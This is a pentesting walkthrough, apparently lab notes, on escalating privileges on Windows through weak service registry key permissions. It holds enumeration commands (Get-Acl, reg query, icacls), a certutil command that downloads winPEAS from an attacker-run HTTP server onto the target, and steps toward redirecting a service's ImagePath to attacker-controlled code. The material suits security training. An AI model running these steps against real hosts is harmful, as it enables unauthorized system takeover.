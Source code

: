 ### **HUNTING FOR WEAK REGISTRY KEY MANUALLY**

1.  Hunting for Weak Registry Key Permissions with PowerShell  
    `Get-Acl -Path hklm:\System\CurrentControlSet\services\* | Format-List | Out-File -FilePath C:\temp\SystemServicesACLs.txt`
    
2.  Transfer the file to your machine (see the file transfer section), By using some Linux commands, This will help us identify any outliers more easily  
    `cat SystemServicesACLs.txt | grep -i "Path\|Access\|BUILTIN\\\Users\|Everyone\|INTERACTIVE\|Authenticated Users" | grep -v "ReadKey" | grep -B 1 -i "Authenticated Users|\BUILTIN\\\Users\|Everyone\|INTERACTIVE\|FullControl\|Modify\|Write"`
    

### **HUNTING FOR WEAK REGISTRY KEY WITH WINPEAS**

1.  Since the target runs a 64-bit OS, we can send 64-bit winPEAS via a Python HTTP server..  
    `python3 -m http.server 8000`  
    
    ![](../../../../img/Windows-Environment/109.png)

    **NOTE:** We have identified that the target machine is a 64-bit architecture using the following command:  
    `systeminfo | findstr /B /C:"System Type"`
    
2.  Transfer winPEAS to target machine Using certutil  
    `certutil -urlcache -f http://[IP-ADRESS]:8000/winPEASx64.exe winPEASx64.exe`  
    
    ![](../../../../img/Windows-Environment/110.png)
    
3.  Now, all we need to do is run winPEAS to search for weak Registry permissions:  
    `.\winPEASx64.exe`  
    
    ![](../../../../img/Windows-Environment/111.png)

    **NOTE:** FullControl and Take ownership privileges can be exploited to take advantage of weak registry permissions.
    

### **ENUMERATING THE WEAK SERVICE REGISTRY KEY WE FOUND**

1.  We can enumerate the service directly using cmd.exe  
    `reg query "HKEY_LOCAL_MACHINE\System\CurrentControlSet\services\regsvc"`  
    
    ![](../../../../img/Windows-Environment/112.png)
    
2.  We can enumerate the service directly using PowerShell:  
    `Get-ItemProperty -Path 'Registry::HKEY_LOCAL_MACHINE\System\CurrentControlSet\services\regsvc' | Select-Object *`  
    
    ![](../../../../img/Windows-Environment/113.png)

    **START 0: BOOT START** **:** Loaded by the OS loader before other services.  
    **START 1: SYSTEM START** **:** Started during the system boot.  
    **START 2: AUTOMATIC START** **:** Started automatically by the Service Control Manager during system startup.  
    **START 3: MANUAL START** **:** Must be started manually by a user or application.  
    **START 4: DISABLED** **:** The service is disabled and will not start.
    
3.  To verify permissions with icacls, it's important to understand the permissions for each directory.  
    Check [Microsoft documentation](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/icacls) to learn more about permissions.  
    
    ![](../../../../img/Windows-Environment/114.png)
    
4.  we can enumerate the permissions on the C:\\Program Files\\Juggernaut folder or the Juggernaut.exe file, we will likely find that we do not have permissions to replace the binary with a malicious one.  
    `icacls "C:\Program Files\Insecure Registry Service\insecureregistryservice.exe"`  
    `icacls "C:\Program Files\Insecure Registry Service"`  
    
    ![](../../../../img/Windows-Environment/115.png)

    **NOTE:** From the output, we see the current user belongs to the BUILTIN\\Users group, which lacks (F), (M), or (W) permissions, meaning we cannot modify the file from the original ImagePath.
    
5.  This is where it gets interesting. With permissions to modify the registry key, we can change the ImagePath to point to a file we control.  
    `Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl`  
    
    ![](../../../../img/Windows-Environment/116.png)

    `whoami /groups`  
    
    ![](../../../../img/Windows-Environment/117.png)

    **NOTE:** The output confirms the user is part of the "NT AUTHORITY\\INTERACTIVE" group, which has FullControl permissions on the regsvc registry key, allowing the exploitation of weak registry key permissions.